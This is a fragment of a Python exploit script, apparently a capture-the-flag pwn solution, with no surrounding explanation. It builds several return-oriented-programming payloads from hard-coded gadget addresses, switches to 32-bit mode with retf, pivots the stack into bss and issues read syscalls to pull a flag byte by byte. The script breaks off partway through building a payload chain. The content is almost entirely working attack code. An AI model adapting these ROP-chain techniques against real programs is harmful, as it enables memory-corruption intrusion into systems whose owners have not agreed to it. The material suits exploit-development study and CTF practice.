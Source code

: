 ```python
	payload += p32(0x4011f3) # : int 0x80
	payload += p32(0x4011ed) # : retf
	payload += p32(0x401734) # : pop
	payload += p32(0x33)
	payload += p64(bss+0x1000+0x200)
	payload += p64(0)
	payload += p64(0x0000000000401170) # read in bss
	payload += p64(0x0000000000401730) # : pop rsp ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p64(bss+0x1000+0x200)
	# raw_input("Break3")
	sl(payload)


	payload = ""
	payload += p64(0)
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x40172f) # : pop r12 ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p64(0x200)
	payload += p64(0x0000000000401102)
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x402c07) # <libc_start_main_stage2+32>:	mov    rdx,r12
	payload += p64(0x0000000000401734) # : pop rdi ; pop rbp ; ret
	payload += p64(3)
	payload += p64(0)
	payload += p64(0x0000000000401732) # : pop rsi ; pop r15 ; pop rbp ; ret
	payload += p64(bss)
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x0000000000401001) # : pop rax ; ret
	payload += p64(0)
	payload += p64(0x0000000000408865) # : syscall
	payload += p64(0x0000000000401730) # : pop rsp ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p64(bss+0x1000-0x500)
	# raw_input("Break4")
	s(payload)


	# index = 0
	# offset = 0x66
	border = 0x40e000+0x27-0x8

	payload = ""
	payload += p64(0)*3

	# set rdx border 
	payload += p64(0x40172f) # : pop r12 ; pop r14 ; pop r15 ; pop rbp ; ret
	payload += p64(border-offset)      # <= rdx
	payload += p64(0x401102)
	payload += p64(0)
	payload += p64(0)
	payload += p64(0x402c07) # <libc_start_main_stage2+32>:	mov    rdx,r12

	# set rsi flag_addr
	payload += p64(0x0000000000401732) # : pop rsi ; pop r15 ; pop rbp ; ret
	payload += p64(bss)
	payload += p64(0)
	payload += p64(0)

	# set rax index
	payload += p64(0x0000000000401001) # : pop rax ; ret
	payload += p64(index)
```